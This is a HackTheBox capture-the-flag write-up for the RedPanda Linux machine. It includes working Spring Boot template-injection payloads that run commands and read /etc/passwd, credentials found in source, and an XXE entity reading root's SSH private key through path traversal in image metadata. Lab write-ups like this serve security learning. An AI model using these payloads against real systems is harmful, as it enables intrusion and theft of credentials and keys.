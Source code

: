```yaml
---
title: HTB | RedPanda
author: Zeropio
date: 2022-08-27
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/redpanda
image:
  path: /assets/img/hackthebox/card/RedPanda.png
  width: 800
  height: 500
---
```


# Footprinting

We start with a nmap to the discover ports:

```
Nmap scan report for 10.10.11.170
Host is up (0.072s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Sat, 27 Aug 2022 21:13:22 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
...

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 If we check the webpage we will find the following page:

![Untitled](/assets/img/hackthebox/labs/redpanda/Untitled.png)

# Foothold

We can try several payloads, until we find that  `*{7*7}` the output is `49`.  If we try the following payload:

```jsx
*{class.getResource("").getPath()}
```

We will get **Whitelabel Error Page**. Searching it, we will find that is about **Spring Boot**. The following payload, from PayloadAllTheThings will work:

```jsx
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

It will give us the `/etc/passwd`{: .filepath}. We can use [this]([https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py](https://raw.githubusercontent.com/VikasVarshney/ssti-payload/master/ssti-payload.py)) script to execute a webshell as follows to create our payloads:

```console
zero@pio$ ./ssti-payload.py

Command ==> id
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

With this we can generate our payloads to move on, start by getting our user with a `whoami` (and replacing all the `$` by `*` . 

We can search in the config file: `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java` {: .filepath}. There we can see the escaped characters (not the `*` ) and a pair of credentials ( **woodenk**:**RedPandazRule** ), we can try ssh with them:

```console
zero@pio$ ssh woodenk@<IP>
```

# Privilege Escalation

If we run:

```console
woodenk@redpanda:~$ ps aux | grep root

root         866  0.0  0.0   2608   600 ?        Ss   16:54   0:00 /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
```

We can see that root user is executing something with our user. Inside the `/opt` {: .filepath} we can see some kind of scripts with the following content:

```bash
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

We can see that it is deleting files with the XML version. If we go back to the webpage, we can see that in the user’s profiles we can download an XML about them.

In the previous file we can found how the XML is exported. If we check on the folder of the script we can find another file that is using the User-Agent:

```java
public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
```

And below the metadata of a file with a *Artist* parameter:

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
```

We could try to do a XXE and aim the metadata of this file to this malicious file. The `exiftool` could be useful to inject metadata inside an image:

```console
zero@pio$ exiftool -Artist="../../../../../../../../../home/woodenk/xxe" dog.jpeg
```

As the program add `_creds.xml` to the file name we just need to name the name before. Create the XML file (must have the same parameters as the others):

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/dog.jpeg</uri>
    <privesc>&xxe;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Call the image:

```console
zero@pio$ curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/dog.jpeg"
```

And download the XML from the user. Check again the XXE and we should have the root RSA there.
